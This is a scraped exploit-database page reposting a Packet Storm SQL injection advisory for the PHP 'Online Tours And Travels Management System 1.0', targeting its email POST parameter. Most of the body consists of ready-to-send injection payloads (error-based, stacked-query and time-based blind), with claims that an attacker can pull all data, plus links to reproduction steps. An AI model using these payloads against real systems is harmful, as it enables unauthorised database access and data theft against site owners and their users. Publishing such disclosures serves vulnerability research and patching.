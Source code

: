 ```yaml
---
title: Online Tours And Travels Management System 1.0 SQL Injection exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:178418&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2024-05-02
fetch_date: 2025-10-06T17:15:56.271091
---
```


# Online Tours And Travels Management System 1.0 SQL Injection exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Online Tours And Travels Management System 1.0 SQL Injection

2024-05-01 | CVSS 7.4

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:178418
## Titles: Travel-Manager-OTMSP-1.0 Multiple SQLi
## Author: nu11secur1ty
## Date: 05/01/2024
## Vendor: https://mayurik.com/
## Software: https://www.sourcecodester.com/php/14510/online-tours-travels-management-system-project-using-php-and-mysql.html
## Reference: https://portswigger.net/web-security/sql-injection

## Description:
The email parameter appears to be vulnerable to SQL injection attacks.
A single quote was submitted in the email parameter, and a database
error message was returned. Two single quotes were then submitted and
the error message disappeared. The attacker can get all information
from the system by using this vulnerability!

STATUS: HIGH- Vulnerability

[+]Exploits:
- SQLi Multiple:
```mysql
---
Parameter: email (POST)
Type: error-based
Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or
GROUP BY clause (FLOOR)
Payload: email=TIkpBNAj@burpcollaborator.net' AND (SELECT 8987
FROM(SELECT COUNT(*),CONCAT(0x717a716b71,(SELECT
(ELT(8987=8987,1))),0x7176717a71,FLOOR(RAND(0)*2))x FROM
INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)# DdfP&send_email=

Type: stacked queries
Title: MySQL >= 5.0.12 stacked queries (comment)
Payload: email=TIkpBNAj@burpcollaborator.net';SELECT SLEEP(7)#&send_email=

Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: email=TIkpBNAj@burpcollaborator.net' AND (SELECT 9208
FROM (SELECT(SLEEP(7)))pkFu)# nfTm&send_email=
---
```

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-nu11secur1ty/tree/main/vendors/mayuri_k/2023/Travel-Manager-OTMSP-1.0)

## Proof and Exploit:
[href](https://www.nu11secur1ty.com/2024/05/travel-manager-otmsp-10-multiple-sqli.html)

## Time spent:
00:35:00
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)